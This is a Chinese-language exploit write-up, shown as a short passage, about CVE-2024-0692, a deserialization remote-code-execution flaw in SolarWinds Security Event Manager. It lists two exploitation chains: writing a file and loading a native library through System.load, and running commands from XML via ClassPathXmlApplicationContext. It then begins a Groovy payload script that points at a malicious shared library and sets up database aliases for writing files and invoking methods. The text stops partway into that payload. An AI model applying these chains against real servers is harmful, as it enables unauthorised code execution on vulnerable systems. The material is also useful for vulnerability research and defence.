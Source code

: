 [![](assets/1709614880-ac36d54e9ca97c60eb2c1c1365a276f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240304191530-82a0a3c4-da18-1.png)

直接给出我的两种利用思路：

写文件 + System.load

1.  利用 File.createTempFile 创建临时文件
2.  利用 commons-io 的 FileUtils 分块写文件
3.  利用 commons-beanutils 的 MethodUtils 反射调用实例/静态方法
4.  利用 System.load 加载动态链接库

ClassPathXmlApplicationContext

1.  利用 commons-beanutils 的 ConstructorUtils 实例化 ClassPathXmlApplicationContext
2.  XML 内调用 ProcessBuilder.start 执行命令

### File Write + System.load

payload (Groovy)

```plain
import javax.naming.Reference
import javax.naming.StringRefAddr

// SolarWinds Security Event Manager AMF Deserialization RCE (CVE-2024-0692)
// file write + System.load

def prefix = 'test'
def lib_path = '/Users/exp10it/exp.so'

def list = []

// drop the previous alias if exists
list << "DROP ALIAS IF EXISTS CREATE_FILE"
list << "DROP ALIAS IF EXISTS WRITE_FILE"
list << "DROP ALIAS IF EXISTS INVOKE_METHOD"
```